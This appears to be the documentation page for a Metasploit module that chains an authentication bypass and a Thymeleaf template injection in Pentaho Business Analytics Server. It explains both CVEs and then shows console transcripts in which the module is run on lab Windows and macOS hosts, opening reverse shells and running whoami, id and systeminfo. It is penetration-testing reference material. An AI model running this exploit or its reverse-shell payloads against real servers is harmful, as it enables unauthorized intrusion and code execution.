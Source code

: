 ## Vulnerable Application  

Hitachi Vantara Pentaho Business Analytics Server prior to versions 9.4.0.1 and 9.3.0.2, including 8.3.x is
vulnerable to an authentication bypass ([CVE-2022-43939](https://attackerkb.com/topics/JGGe0nRNNv/cve-2022-43939?referrer=docs))
and Server Side Template Injection (SSTI) vulnerability ([CVE-2022-43769](https://attackerkb.com/topics/hy6nWcCo30/cve-2022-43769?referrer=docs))
that can be chained together to achieve unauthenticated code execution as the user running the Pentaho Business Analytics Server.

The first vulnerability ([CVE-2022-43939](https://attackerkb.com/topics/JGGe0nRNNv/cve-2022-43939?referrer=docs))
is an authentication bypass which stems from a regex that allows any url that ends in `require.js` to bypass authentication.
The second ([CVE-2022-43769](https://attackerkb.com/topics/hy6nWcCo30/cve-2022-43769?referrer=docs)) is a server side 
template injection. This vulnerability allows RCE by making a GET request to `/api/ldap/config/ldapTreeNodeChildren` and
setting the `url` parameter to ThymeLeaf template code. By abusing the ability to execute arbitrary Java classes within 
Thymeleaf templates, an attacker can execute arbitrary commands as the user running the Pentaho Business Analytics Server.

### Setup

A vulnerable application can be downloaded for either Windows Linux or Mac from the Hitachi Vantara
[downloads](https://www.hitachivantara.com/en-us/products/lumada-dataops/data-integration-analytics/download-pentaho.html)
page after clicking the `Start a Free 30-Day Trial` button.

For backup purposes a copy of the Windows installer for 9.3.0.0-428 x64 which can be used for testing
can be found at https://archive.org/details/pentaho-business-analytics-9.3.0.0-428-x64 in case these pages no longer
serve a vulnerable copy of the software.
  
Once downloaded, extract and run the installer. The installation wizard will ask you to set a password for the Pentaho
Business server. Once installation completes it will ask if you would like to launch the application. 

## Verification Steps  
  
1. Start msfconsole  
1. Do: `use multi/http/pentaho_business_server_authbypass_and_ssti`  
1. Set the `RHOST` and `LHOST` options
1. Ensure the `TARGET` option corresponds to the environment being targeted.  
1. `exploit`
1. Receive a session in the context of the user that's running Pentaho Business Server.  
  
## Scenarios

### Windows 11 22H2 pentaho-business-analytics-9.3.0.0-428-x64.exe
```
msf6 > use multi/http/pentaho_business_server_authbypass_and_ssti
[*] Using configured payload cmd/unix/reverse_openssl
msf6 exploit(multi/http/pentaho_business_server_authbypass_and_ssti) > set rhosts 172.16.199.138
rhosts => 172.16.199.138
msf6 exploit(multi/http/pentaho_business_server_authbypass_and_ssti) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(multi/http/pentaho_business_server_authbypass_and_ssti) > set target 2
target => 2
msf6 exploit(multi/http/pentaho_business_server_authbypass_and_ssti) > options

Module options (exploit/multi/http/pentaho_business_server_authbypass_and_ssti):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.16.199.138   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /pentaho         yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/windows/powershell_reverse_tcp):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   LHOST         172.16.199.1     yes       The listen address (an interface may be specified)
   LOAD_MODULES                   no        A list of powershell modules separated by a comma to download over the web
   LPORT         4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   2   Windows Command



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/pentaho_business_server_authbypass_and_ssti) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Attempting to exploit...
[+] Exploit successful
[*] Powershell session session 1 opened (172.16.199.1:4444 -> 172.16.199.138:51232) at 2023-05-03 15:07:11 -0400

PS C:\Pentaho\server\pentaho-server\tomcat> whoami
nt authority\local service
PS C:\Pentaho\server\pentaho-server\tomcat> systeminfo

Host Name:                 MSFDEVICE
OS Name:                   Microsoft Windows 11 Home
OS Version:                10.0.22621 N/A Build 22621
```

### Mac OS X Catalina pentaho-business-analytics-9.3.0.0-428-x64.app
```
msf6 > use multi/http/pentaho_business_server_authbypass_and_ssti
[*] Using configured payload cmd/unix/reverse_openssl
msf6 exploit(multi/http/pentaho_business_server_authbypass_and_ssti) > set rhosts 172.16.199.132
rhosts => 172.16.199.132
msf6 exploit(multi/http/pentaho_business_server_authbypass_and_ssti) > set lhost 172.16.199.1
lhost => 172.16.199.1
msf6 exploit(multi/http/pentaho_business_server_authbypass_and_ssti) > set payload cmd/unix/reverse_python
payload => cmd/unix/reverse_python
msf6 exploit(multi/http/pentaho_business_server_authbypass_and_ssti) > options

Module options (exploit/multi/http/pentaho_business_server_authbypass_and_ssti):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     172.16.199.132   yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      8080             yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /pentaho         yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (cmd/unix/reverse_python):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  172.16.199.1     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port
   SHELL  /bin/sh          yes       The system shell to use


Exploit target:

   Id  Name
   --  ----
   0   Unix Command



View the full module info with the info, or info -d command.

msf6 exploit(multi/http/pentaho_business_server_authbypass_and_ssti) > run

[*] Started reverse TCP handler on 172.16.199.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Attempting to exploit...
[+] Exploit successful
[*] Command shell session 1 opened (172.16.199.1:4444 -> 172.16.199.132:49391) at 2023-05-03 15:14:07 -0400

id
uid=501(msfuser) gid=20(staff) groups=20(staff),12(everyone),61(localaccounts),79(_appserverusr),80(admin),81(_appserveradm),98(_lpadmin),701(com.apple.sharepoint.group.1),33(_appstore),100(_lpoperator),204(_developer),250(_analyticsusers),395(com.apple.access_ftp),398(com.apple.access_screensharing),399(com.apple.access_ssh),400(com.apple.access_remote_ae)
uname -a
Darwin msfusers-Mac.local 19.3.0 Darwin Kernel Version 19.3.0: Thu Jan  9 20:58:23 PST 2020; root:xnu-6153.81.5~1/RELEASE_X86_64 x86_64
```